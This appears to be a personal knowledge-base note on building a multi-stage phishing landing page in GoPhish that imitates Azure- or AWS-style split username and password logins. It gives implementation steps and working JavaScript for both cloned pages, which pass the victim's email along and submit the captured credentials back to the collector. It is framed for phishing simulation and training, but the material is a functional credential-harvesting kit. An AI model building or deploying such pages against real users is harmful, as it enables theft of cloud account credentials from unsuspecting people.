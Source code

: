 ```yaml
---
creation date: October 10th 2024
last modified date: October 10th 2024
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Multi-Stage Landing Page]]  
___

## Description:  

Instructions for using a multi-stage landing page in a GoPhish campaign. This was created to support cloud service pretexts like AWS and Azure where username and password are submitted on two separate pages. Example: [https://portal.azure.com](https://portal.azure.com)

Implementation Steps

1. Clone the username page and add it as the landing page in GoPhish.
2. Make sure form submissions are captured for this page, including passwords, and confirm that this is working correctly before adding the second page.
3. In GoPhish, set this landing page to redirect to the training page (or wherever you want victims to finally end up).
4. Clone the password page and save it as a static local page in /opt/gophish/static/endpoint/.
5. Edit the content of the username page and add an onsubmit attribute for the form. See the example forwardInfo JavaScript function below.

	1. Set the appropriate <SECOND_PAGE_URL> in the JavaScript function
	2. This will look something like: [https://example.com/static/second_page.html](https://example.com/static/second_page.html)
	3. On the "email = " line, the "email" in "form.email.value" is the name of the HTML form input. Make sure the input is named "email" or that the code matches here.

6. Edit the content of the password page and add a script at the bottom of the HTML body that executes a function on window load. See the handleParams JavaScript example below.

	1. On the "document.passwordForm.action" line near the end of the script, "passwordForm" has to match the actual form name on the page.
	2. If the email/username is incorporated into this second page anywhere, find that element's HTML ID, then uncomment the middle section of code and specify the element to overwrite.

Page 1 (Username Page) Code

|   |
|---|
|`<script>`<br><br>`function forwardInfo(form)`<br><br>`{`<br><br>  `secondPageURL = '<SECOND_PAGE_URL>'`<br><br>  `email         = encodeURIComponent(form.email.value);`<br><br>  `redirect_url  = encodeURIComponent(window.location.href);`<br><br>  `form.action   = secondPageURL + '?email=' + email + '&redirect_url=' + redirect_url;`<br><br>  `return true;`<br><br>`}`<br><br>`</script>`<br><br>`<form name="foo" ... onsubmit="return forwardInfo(this)">`|

Page 2 (Password Page) Code

|                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `<form name="passwordForm" ...`<br><br>`...`<br><br>`<script>`<br><br>`window.onload = handleParams;`<br><br>`function handleParams()`<br><br>`{`<br><br>  `// Parse parameters from URL`<br><br>  `queryString  = window.location.search;`<br><br>  `urlParams    = new URLSearchParams(queryString);`<br><br>  `email        = decodeURIComponent(urlParams.get('email'));`<br><br>  `redirect_url = decodeURIComponent(urlParams.get('redirect_url'));`<br><br>  `// Write the email address into the page if desired`<br><br>  `//document.getElementById("<HTML_ID>").innerHTML = email;`<br><br>  `// Submit the username to the first page`<br><br>  `var http = new XMLHttpRequest();`<br><br>  `http.open('POST', redirect_url);`<br><br>  `http.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded')`<br><br>  `http.send('email=' + email);`<br><br>  `// Set the form on this page to submit to the first page`<br><br>  `document.passwordForm.action = redirect_url;`<br><br>`}`<br><br>`</script>`<br><br>`</body>`<br><br>`</html>` |


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: October 10th 2024 (10:18 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
